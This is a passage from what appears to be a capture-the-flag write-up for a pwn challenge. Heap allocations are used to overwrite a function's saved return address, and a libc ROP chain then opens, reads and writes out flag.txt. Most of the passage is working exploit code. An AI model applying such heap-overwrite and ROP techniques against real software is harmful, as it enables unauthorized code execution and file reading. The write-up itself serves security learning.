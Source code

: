 So we will need to malloc 2 more times and the second time will be the address of saved rip of `create_secret`. Let's try to see:

```python
create(b'G'*8, 0x408, b'G', 1, useprev=0)
create(b'F'*8, 0x408, cyclic(0x400), 1, useprev=0)
```

Attach with gdb-gef and we can see we will get a segfault:

![check-saved-rip-of-create-secret.png](images/check-saved-rip-of-create-secret.png)

Tada! We can control rip now. Let's make our ROPchain and get the flag:

```python
pop_rax = libc.address + 0x00000000000439c8
pop_rdi = libc.address + 0x000000000002155f
pop_rsi = libc.address + 0x0000000000023e6a
pop_rdx = libc.address + 0x0000000000001b96
syscall = libc.address + 0x00000000000d2975
payload = flat(
	# Open flag.txt
	pop_rax, 2,
	pop_rdi, leak_stack - 0x138,
	pop_rsi, 0,
	pop_rdx, 0,
	syscall,

	# pop_rax, 0,
	pop_rdi, 3,
	pop_rsi, leak_stack - 0x1000,
	pop_rdx, 0x100,
	libc.sym['read'],

	pop_rdi, 1,
	libc.sym['write'],
	b'flag.txt', 0
	)
create(b'G'*8, 0x408, b'G', 1, useprev=0)
create(b'F'*8, 0x408, payload, 1, useprev=0)
```
